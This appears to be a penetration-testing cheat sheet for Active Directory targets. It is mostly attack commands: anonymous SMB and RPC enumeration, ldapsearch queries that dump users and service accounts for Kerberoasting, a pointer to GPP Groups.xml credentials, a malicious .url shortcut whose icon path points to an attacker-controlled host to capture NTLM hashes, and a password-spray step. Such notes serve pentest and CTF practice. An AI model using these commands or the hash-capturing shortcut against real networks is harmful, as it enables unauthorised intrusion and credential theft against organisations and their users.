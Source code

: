 > looking to foothold, find shares, grab user and group information

```
smbclient -U "" -L \\\\$IP
smbclient -L
smbmap -u "" -H $IP
rpcclient -U "" -N $IP
GetADUsers.py -all -dc-ip $IP domain.local/username
crackmapexec smb --shares
rpcclient -U '' $IP --no-pass
    enumdomusers
    queryusergroups $username

```

#### Interesting files on shares
- Group Policy Preferences (GPP) was introduced in Windows Server 2008, and among many other features, allowed administrators to modify users and groups across their network.)
    - Groups.xml


#### LDAP [decent attack surface]
```
ldapsearch -h $IP
ldapsearch -h $IP -x # simple auth
ldapsearch -h $IP -D USER' -w 'PASS' -x -b "DC=box,DC=local" '(objectclass=user)'
ldapsearch -h $IP -x -s base namingcontexts # scope
ldapsearch -h $IP -x -b "DC=corporate,DC=local" > ldap.out
ldapsearch -h $IP -x -b "DC=Box,DC=local" '(ObjectClass=user)' > people.out
ldapsearch -h $IP -x -b "DC=Box,DC=local" '(ObjectClass=user)' | grep -i userPrincipalName | awk -F ':' '{print $2}' > useremailadds.ldap
ldapsearch -h $IP -x -b "DC=Box,DC=local" '(ObjectClass=Person)' | grep -i sAMAccountName: | awk -F ':' '{print $2}' > users.ldap
ldapsearch -x -h $(cat ip) -p 389 -D 'USER' -w 'PASS' -b "DC=box,DC=local" -s sub "(&(objectCategory=person)(objectClass=user)(!(useraccountcontrol:1.2.840.113556.1.4.803:=2)))" > users_people.ldap
ldapsearch -x -h $(cat ip) -p 389 -D  'user' -w 'pass' -b "dc=box,dc=local" -s sub "(&(objectCategory=person)(objectClass=user)(serviceprincipalname=*/*))" servicePrincipalName | grep -B 1 servicePrincipalName


```

#### URL Attack
> Save file @generalfile.url [The @ places at top of folder]

```
[InternetShortcut]
URL=helloworld
WorkingDirectory=helloworld
IconFile=\\MYIP\%USERNAME%.icon
IconIndex=1
```


#### Password spray from LDAP / RPC findings
[simple pass.list](/wordlists/simple.txt)
